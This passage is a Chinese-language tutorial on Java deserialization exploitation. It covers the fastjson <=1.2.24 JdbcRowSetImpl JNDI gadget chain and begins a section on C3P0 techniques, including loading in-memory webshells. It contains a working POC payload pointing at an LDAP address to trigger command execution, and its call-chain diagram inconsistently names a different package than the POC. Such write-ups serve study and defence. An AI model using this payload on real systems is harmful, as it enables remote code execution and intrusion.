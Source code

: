 看上去应该是挺正常的使用逻辑，反序列化需要调用对应参数的setter、getter方法来恢复数据。

但是在可以调用任意类的情况下，如果setter、getter方法中存在可以利用的情况，就会导致任意命令执行。

## [<=1.2.24]JNDI JdbcRowSetImpl

> 很多利用链的方法同jackson, 不会细讲太多

利用链: com.sun.rowset.JdbcRowSetImpl

整体流程

```
mapper.readValue
    ->com.nqadmin.rowset.JdbcRowSetImpl.setDataSourceName
        ->javax.sql.rowset.BaseRowSet.setDataSourceName
            ->com.nqadmin.rowset.JdbcRowSetImpl.setAutoCommit
                ->this.connect()
                    ->(DataSource)ctx.lookup(this.getDataSourceName())
```

POC

```java
import com.alibaba.fastjson.JSON;

/**
 * fastjson 1.2.22-1.2.24
 */
public class fastjson1222
{
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

## C3P0

在C3P0中有三种利用方式

- http base
- JNDI
- HEX序列化字节加载器

在原生的反序列化中如果找不到其他链，则可尝试C3P0去加载远程的类进行命令执行。JNDI则适用于Jackson等利用。而HEX序列化字节加载器的方式可以利用与fj和Jackson等不出网情况下打入内存马使用。

### http base

#### C3P0的构造
